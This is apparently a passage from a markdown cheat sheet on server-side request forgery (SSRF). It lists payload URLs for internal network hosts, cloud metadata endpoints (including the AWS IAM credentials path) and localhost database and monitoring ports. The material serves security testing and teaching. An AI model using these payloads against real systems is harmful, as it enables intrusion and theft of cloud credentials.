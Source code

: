### 4. SSRF with Protocol Smuggling
Using different protocols (file://, gopher://, etc.)

---

## Common Attack Scenarios

### 🎯 Internal Network Access
```
http://192.168.1.10/admin
http://10.0.0.5:8080/
http://localhost:6379/ (Redis)
http://localhost:9200/ (Elasticsearch)
```

### ☁️ Cloud Metadata
```
# AWS
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Google Cloud
http://metadata.google.internal/computeMetadata/v1/
http://169.254.169.254/computeMetadata/v1/

# Azure
http://169.254.169.254/metadata/instance?api-version=2019-06-01

# Digital Ocean
http://169.254.169.254/metadata/v1/
```

### 🔧 Internal Services
```
# Databases
http://localhost:3306/ (MySQL)
http://localhost:5432/ (PostgreSQL)
http://localhost:27017/ (MongoDB)

# Message Queues
http://localhost:5672/ (RabbitMQ)
http://localhost:9092/ (Kafka)

# Monitoring
http://localhost:9090/ (Prometheus)
http://localhost:3000/ (Grafana)
```

---
